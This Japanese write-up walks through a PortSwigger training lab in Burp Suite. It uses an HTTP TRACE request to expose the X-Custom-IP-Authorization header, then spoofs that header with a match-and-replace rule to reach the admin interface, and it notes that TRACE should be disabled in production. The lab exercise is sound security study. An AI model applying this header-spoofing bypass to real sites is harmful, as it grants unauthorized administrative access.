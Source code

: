# 情報開示による認証バイパス

HTTP の TRACE メソッドは、対象リソースまでのパスに沿ってメッセージのループバックテストを行い、便利なデバッグの仕組みを提供します。  
ただし、本番環境で TRACE メソッドを有効にしていると情報を盗まれる可能性はあります。  
例えば、Apche サーバの場合、TRACE メソッドを封じる場合、TraceEnable Off に設定する必要があります。

以下のハッキングラボに対して、TRACE メソッドを実行します。  
https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass

- 1. Burp Suite を起動し、Proxy タブからブラウザを起動します
- 2. 起動したブラウザからハッキングラボにアクセスします

* 3. Burp Repeater で GET /admin リクエストを送信します  
     取得データに以下の一文が含まれています

```
     Admin interface only available to local users
```

- 4. TRACE /admin リクエストを送信します  
     ヘッダーに X-Custom-IP-Authorization が付加されています。

```
HTTP/2 200 OK
Content-Type: message/http
X-Frame-Options: SAMEORIGIN
Content-Length: 710

TRACE /admin HTTP/1.1
Host: 0a9c004b03f18ba0819dd54500810080.web-security-academy.net
cache-control: max-age=0
sec-ch-ua:
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
upgrade-insecure-requests: 1
user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-fetch-site: none
sec-fetch-mode: navigate
sec-fetch-user: ?1
sec-fetch-dest: document
accept-encoding: gzip, deflate
accept-language: ja,en-US;q=0.9,en;q=0.8
Content-Length: 0
X-Custom-IP-Authorization: 106.154.140.40
```

- 5. Burp タブ->Option から Match and replace rules の追加を選択します

* 6. 以下のように入力して OK 押下
     ![1](https://github.com/pea-sys/Til/assets/49807271/81756571-054b-4a2c-a2c5-e1966dd6867b)
* 7. ハッキングラボのページをリフレッシュすると、管理者専用メニューにアクセス可能になります
     ![2](https://github.com/pea-sys/Til/assets/49807271/237a60d6-3499-4476-a517-ca0569cd1f96)

